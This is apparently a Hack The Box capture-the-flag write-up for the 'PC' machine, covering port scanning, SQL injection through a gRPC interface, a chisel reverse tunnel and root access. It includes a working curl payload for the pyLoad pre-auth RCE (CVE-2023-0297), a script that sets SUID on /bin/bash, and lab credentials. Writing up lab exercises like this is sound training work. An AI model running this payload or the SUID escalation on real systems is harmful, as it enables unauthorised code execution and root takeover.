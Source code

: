Nmap reveals a strange port that is open, accessing the webpage does not reveal anything.

```
└──╼ [★]$ nmap -sC -A -T4 -p- -Pn 10.129.85.76
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 20:42 BST
Nmap scan report for 10.129.85.76
Host is up (0.0044s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Attempting to connect to it does give us a hint.
```
└──╼ [★]$ telnet 10.129.85.76 50051
Trying 10.129.85.76...
Connected to 10.129.85.76.
Escape character is '^]'.
?�?� ?@Did not receive HTTP/2 settings before handshake timeoutConnection closed by foreign host.
```

After some googling I learned that it was a grpc server and we can access that by installing the gui.

https://github.com/fullstorydev/grpcui
```
└──╼ [★]$ go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
```
```
└──╼ [★]$ chmod -R 777 go/
```
```
└──╼ [★]$ ./grpcui -plaintext 10.129.94.151:50051
gRPC Web UI available at http://127.0.0.1:32953/
```
After installing and running the program we are greeted with a page.

Using default credentials works but it does not get us anywhere.

![image](https://github.com/Rogue-1/HTB/assets/105310322/1798d19a-54b0-47d8-8efa-4114f991063c)

![image](https://github.com/Rogue-1/HTB/assets/105310322/e08a1923-efe7-4dcc-81f0-d6052dcd9eca)

However in the getinfo section we can see that it may be vulnerable to sql injection based on the errors.

![image](https://github.com/Rogue-1/HTB/assets/105310322/6a096f4e-55c8-41a7-b58a-7a4ca47692dd)

After alot of messing around we finally get some data back with usernames and passwords to log in through ssh as sau - HereIsYourPassword1431

![image](https://github.com/Rogue-1/HTB/assets/105310322/ba5b0b95-e080-4f05-8355-b9564cedfe57)

![image](https://github.com/Rogue-1/HTB/assets/105310322/89b443cb-3cd5-40c0-b7bf-bfb58ec18094)


Login and grab the user flag.

```
└──╼ [★]$ ssh sau@10.129.94.151
sau@10.129.94.151's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)

sau@pc:~$ cat user.txt
474dded2f0348a7c9aacbad64cb7e513
```

After logging in I ran linpeas and noticed port 8000 was open.

Transfer chisel to the victim and run it to access the webpage on our host computer.

```
└──╼ [★]$ chisel server --reverse --port 1234
2023/07/11 22:04:39 server: Reverse tunnelling enabled
2023/07/11 22:04:39 server: Fingerprint izTDIgf3pIe+DypOlVdLmutBd4Tj0fu+cuNRh3rvtyM=
2023/07/11 22:04:39 server: Listening on http://0.0.0.0:1234
2023/07/11 22:04:40 server: session#1: tun: proxy#R:8000=>8000: Listening

sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:04:15 client: Connecting to ws://10.10.14.31:1234
```

We are greeted with a login page for pyload but none of the credentials we have work. Luckily a quick google search for pyload vulnerabilites shows that there is a CVE for it.

![image](https://github.com/Rogue-1/HTB/assets/105310322/010ff159-666f-4e78-a64d-11f764d553d9)

https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

Create a simple priv esc bash script

```
#!/bin/bash

chmod u+s /bin/bash
```

Modify the payload to access your bash script.

Running the script may appear to fail but if you check it you can see that it was successful.

```
└──╼ [★]$ curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"bash%20/dev/shm/bash.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Tue, 11 Jul 2023 21:27:37 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```

```
sau@pc:/dev/shm$ ./chisel client 10.10.14.31:1234 R:8000:127.0.0.1:8000
2023/07/11 21:27:21 client: Connecting to ws://10.10.14.31:1234
2023/07/11 21:27:21 client: Connected (Latency 3.771334ms)
^C2023/07/11 21:27:40 client: Disconnected
2023/07/11 21:27:40 client: Give up
sau@pc:/dev/shm$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

```

After everything works out you can grab the root flag!

```
sau@pc:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
d54654ee************************
```
